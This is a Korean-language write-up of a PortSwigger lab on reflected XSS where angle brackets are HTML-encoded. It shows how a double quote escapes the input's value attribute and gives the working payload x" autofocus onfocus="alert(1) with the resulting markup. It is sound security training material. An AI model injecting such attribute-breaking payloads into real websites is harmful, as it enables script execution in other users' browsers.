


+++
date = '2026-06-02T15:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Reflected XSS into attribute with angle brackets HTML-encoded'
summary = "꺾쇠가 HTML 인코딩되는 환경에서 input의 value 속성을 탈출하고 autofocus와 onfocus를 주입하는 Reflected XSS 풀이"
toc = true
tags = ["XSS", "Reflected XSS", "HTML Attribute", "PortSwigger", "Apprentice"]
url = '/write-up/portswigger/xss/write-up-portswigger---reflected-xss-into-attribute-with-angle-brackets-html-encoded/'
+++

---

## 문제 분석

> **난이도**: `APPRENTICE`  
> **Lab**: [Reflected XSS into attribute with angle brackets HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)

> 

검색 기능에서 입력값이 HTML 속성에 반사되며 꺾쇠는 HTML 인코딩된다. 새로운 태그를 열지 않고 기존 요소에 이벤트 속성을 주입해 `alert()` 함수를 호출하면 문제가 해결된다.

### XSS 진단

검색어는 다음과 같이 검색창의 `value` 속성에 반사된다.

```html
<input type="text" placeholder="Search the blog..." name="search" value="xss">
```

`<script>` 같은 입력은 꺾쇠가 인코딩되어 태그로 해석되지 않지만, 큰따옴표 `"`는 그대로 반영된다. 따라서 `value` 속성을 닫은 뒤 같은 `input` 요소에 새로운 속성을 추가할 수 있다.

---

## 익스플로잇

다음 페이로드를 검색어로 입력한다.

```html
x" autofocus onfocus="alert(1)
```

최종 요소는 다음과 같은 형태가 된다.

```html
<input type="text" placeholder="Search the blog..." name="search"
       value="x" autofocus onfocus="alert(1)">
```

`autofocus`가 페이지 로드 직후 입력 요소에 포커스를 주고, 주입한 `onfocus` 이벤트 핸들러가 자동으로 실행된다.



`alert()`가 호출되면서 문제가 해결된다.

---

## 정리

XSS 페이로드는 출력 컨텍스트에 맞춰 구성해야 한다. 이 랩에서는 꺾쇠가 차단되어 새로운 태그를 만들 수 없지만, 큰따옴표를 이용해 기존 속성에서 탈출할 수 있다. 속성 컨텍스트에서는 인용부호 처리 여부와 자동으로 발생시킬 수 있는 이벤트가 주요 진단 지점이다.
